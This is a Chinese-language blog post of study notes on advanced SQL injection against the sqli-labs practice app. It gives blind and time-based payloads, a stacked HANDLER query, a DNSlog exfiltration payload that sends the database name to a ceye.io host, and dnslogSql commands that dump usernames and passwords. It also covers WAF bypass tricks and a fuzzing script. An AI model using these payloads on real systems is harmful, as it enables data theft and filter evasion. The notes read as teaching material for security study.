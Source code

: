 ```yaml
---
layout: post
title: SQL注入进阶
categories: [web,sql]
---
```


# 较为常规的注入 
## 函数  
```sql
    limit(0,1) #从第1个开始显示1条数据  
    if(条件,5,0) #条件成立，返回5，否则返回0    
    mid(a,b,c) #从位置b开始，截取a字符串第c位，从1开始  
    substr(a,b,c) #从位置b开始，截取字符串a的c长度  
    left(a,b) #从左侧截取a的前b位  
    length(database())=8 #判断database的长度  
    ord(x)=85或ascii(x)=85  
```
***
## 布尔盲注
>用left(database(),x)判断数据库长度  

---
## 延时盲注
![9](/img/sql9.png)
![10](/img/sql10.png)
>如果有id=1 and sleep(if(database()='a',b,1))则sleep(1)  
---
## 堆叠查询
```sql
    mysql_query():一条查询  
    mysqli_multi_query():多条查询
```
>使用handler 命令查看表中的「数据」，需要注意的是，表名如果是数字，则需要使用反引号包裹起来，payload如下：  
>?id=0';handler `tablename` open;handler `tablename` read first; -- a  
---
## 宽字节注入
>仅限于中文  
![6](/img/sql6.png)
## sql绕过
## sql写shell

# 注入拓展

## 加解密注入
cookie等要先加密再注入  

## 二次注入
#### 一般只能在白盒进行
>插入恶意数据  
>引用恶意数据
 
## dnslog注入  
>要有读写权限  
解决盲注不能回显数据，效率低的问题  

### 手动注入
[DNS在线服务器](http://ceye.io/)
```sql
//查询当前数据库  
id=1'and load_file(concat("\\\\",database(),".913n8.ceye.io\\xxx.txt"))--+  
```

### 工具注入
利用DnslogSqlinj工具进入DNSlog注入  
需要使用python27环境  

```
获取数据库名:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" --dbs
获取数据库security下的表名:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" -D security --tables
获取users表的列名:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" -D security -T users --columns
获取uses表中的数据:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" -D security -T users -C username,password --dump
```

## 排序注入 

# waf绕过

## 数据

### 大小写  

### 加密解密

```php
//自写脚本,假如参数值经过base64加密  
<?php
    $url="http://localhost/test.php?a=";
    $urls=$url.base64_encode($_GET['sqli']);
    $result=file_get_contents($urls);
    echo $result;
?>   
```  

### 编码解码  

### 等价函数  

### 特殊符号  

### 反序列化  

### 注释符混用  

```
union/**/select
%23a%0A   #号接上换行符  
/*!union select*/
id=1/**&id=-1 union select 1,2,3#*/ 此时waf不会识别/***/里的内容，但是会参数污染识别到最后一个参数  
```  

### http参数污染
>PHP/Apache 获取参数，若是相同的参数，则获取最后一个参数的值  

### Fuzz模糊测试
用字典写脚本访问
```py
import requests
import time
url="xxxx"
for sqli in open('payload.txt'):
    url=url+sqli
    result=requests.get(url).text
    if(result.find('xx')==-1):
        print("注入成功")
    time.sleep(1)
```